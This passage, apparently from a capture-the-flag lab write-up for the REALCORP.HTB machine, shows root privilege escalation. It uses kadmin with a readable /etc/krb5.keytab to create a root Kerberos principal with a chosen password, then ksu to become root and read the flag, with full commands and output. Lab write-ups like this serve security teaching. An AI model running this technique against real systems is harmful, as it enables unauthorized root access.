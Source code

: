 The keytab file contains the principles and encrypted keys for users which can access the machine. This means we can escalate to any user user by adding a keytab entry for him with a password of our choice. We do this for the root user, using the kadmin functionality choosing a password of our liking.

```
[admin@srv01 ~]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.

kadmin:  add_principal root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  exit
```

Finally we use ksu to switch to our newly created principle with our chosen password and are able to read the flag as the root user.

```
[admin@srv01 ~]$ ksu root
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 admin]# wc -c /root/root.txt
33 /root/root.txt
```
